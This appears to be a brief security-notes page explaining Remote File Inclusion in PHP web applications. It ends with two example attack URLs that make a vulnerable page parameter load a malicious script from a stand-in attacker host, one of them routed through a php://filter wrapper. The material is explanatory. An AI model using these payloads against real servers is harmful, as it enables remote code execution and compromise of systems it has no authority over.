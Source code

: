 ## Remote File Inclusion (RFI)
- The Remote File Inclusion (RFI) vulnerability is a security flaw where an attacker can include remote 
files in a vulnerable web application. 
This can allow the attacker to execute malicious code on the web server and compromise the system.

- In an RFI attack, the attacker uses user input, such as a URL or form field, to include a remote file 
in the request. If the web application does not properly validate these inputs, it will process the 
request and return the content of the remote file to the attacker.

- An attacker can exploit this vulnerability to include malicious remote files containing harmful code, 
such as viruses or trojans, or to execute commands on the vulnerable server. In some cases, the attacker 
can direct the request to a PHP resource hosted on their own server, giving them a higher degree of control 
in the attack.

## Basic RFI attack:

```ruby
http://vulnerable-site.com/index.php?page=http://attacker-site.com/malicious-script.php
```

### RFI with PHP wrapper:
```ruby
http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=http://attacker-site.com/malicious-script.php
```